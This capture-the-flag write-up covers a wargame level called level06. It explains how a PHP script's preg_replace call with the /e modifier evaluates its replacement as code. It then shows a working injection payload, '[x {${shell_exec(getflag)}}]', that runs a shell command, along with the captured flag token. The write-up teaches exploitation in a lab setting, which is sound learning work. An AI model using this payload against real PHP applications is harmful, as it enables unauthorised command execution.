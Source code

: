 # First step

We have level06 and level06.php in the same folder.

```shell
$> ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

```php
#!/usr/bin/php
<?php
    function y($m) {
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m;
    }
    function x($y, $z) {
        $a = file_get_contents($y);
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a);
        return $a;
    }
    $r = x($argv[1], $argv[2]);
    print $r;
?>
```

Some research about PHP and how to use it, you can find it on the internet.  

- file_get_contents(): get file content  
- preg_replace(): replace a pattern with a replacement  
- '/e' modifier in preg_replace(): execute the content in the replacement string as PHP code  
- \[x: first part of the pattern: begining by [x  
- (.*): second part of the pattern: the content after [x  
- '"y(\"\\2\")"': replace the second part of the pattern with the content of the function y  

# Seconde step

We know with '/e' we can execute the content in the replacement string as PHP code.  
```shell
# we can execute a shell command with shell_exec() in php  

# [x: first part of the pattern: begining by [x  
# {${shell_exec(getflag)}}  
# -> {}: to let preg_replace (/e mode) know, is a php code  
# -> ${}: to let php know, is a variable/function/method
$> echo '[x {${shell_exec(getflag)}}]' > /tmp/getflag

$> ./level06 /tmp/getflag
[...]
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
[...]
```
